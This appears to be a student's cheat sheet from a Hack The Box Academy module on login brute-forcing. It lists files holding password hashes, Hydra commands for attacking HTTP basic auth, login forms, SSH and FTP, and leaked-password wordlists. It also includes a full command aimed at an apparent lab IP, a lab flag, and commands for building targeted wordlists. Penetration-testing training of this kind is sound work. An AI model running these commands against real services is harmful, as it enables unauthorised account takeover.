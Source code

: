 # Login Brute Forcing  

# Pasword HASH Enumeration  

>Files that can contain hashed passwords for offline brute-forcing:  

| **Windows**   | **Linux**   |
| --------------|-------------------|
| unattend.xml | shadow |
| sysprep.inf | shadow.bak |
| SAM | password / passwd |

# Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Lists**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist [Dictionary Attack - SecLists repo for wordlists](https://github.com/danielmiessler/SecLists) |
| `/usr/share/wordlists/rockyou.txt` | The most Common Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt` | The seclists Passwords in this Leaked-Databases file rockyou-10 contain 92 entries. |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Default Passwords  

>It is very common to find pairs of usernames and passwords used together, especially when default service passwords are kept unchanged.
>[Default Passwords - Login Brute Force](https://academy.hackthebox.com/module/57/section/498) POST Form:  

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f 83.136.251.168 -s 52278 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```  

>[HYDRA - Brute Forcing Forms](https://academy.hackthebox.com/module/57/section/489)  
>[Username Brute Force](https://academy.hackthebox.com/module/57/section/487)  

![default-passwords HTB{bru73_f0rc1n6_15_4_l457_r350r7}](/images/default-passwords.png)  

>Above screenshot show using Burp Proxy to [Determine Login Parameters](https://academy.hackthebox.com/module/57/section/504)  

# Personalized Wordlists  

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist [Personalized Wordlists](https://academy.hackthebox.com/module/57/section/512) |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List [GITHUB Username Anarchy](https://github.com/urbanadventurer/username-anarchy) |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |

